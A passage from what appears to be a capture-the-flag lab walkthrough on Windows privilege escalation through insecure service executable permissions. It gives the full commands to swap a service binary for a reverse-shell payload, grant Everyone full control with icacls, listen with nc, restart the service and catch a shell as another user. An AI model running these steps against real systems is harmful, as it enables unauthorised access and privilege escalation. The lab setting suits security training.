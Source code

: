 Once the payload is in the Windows server, we proceed to replace the service executable with our payload. Since we need another user to execute our payload, we'll want to grant full permissions to the Everyone group as well:

```
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

We start a reverse listener on our attacker machine:

```

Kali Linux

user@attackerpc$ nc -lvp 4445
```

And finally, restart the service. While in a normal scenario, you would likely have to wait for a service restart, you have been assigned privileges to restart the service yourself to save you some time. Use the following commands from a cmd.exe command prompt:
```Command Prompt

C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
        
```
Note: PowerShell has sc as an alias to Set-Content, therefore you need to use sc.exe in order to control services with PowerShell this way.

As a result, you'll get a reverse shell with svcusr1 privileges:

```

Kali Linux

user@attackerpc$ nc -lvp 4445
Listening on 0.0.0.0 4445
Connection received on 10.10.175.90 50649
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr1

```

Go to svcusr1 desktop to retrieve a flag. Don't forget to input the flag at the end of this task.
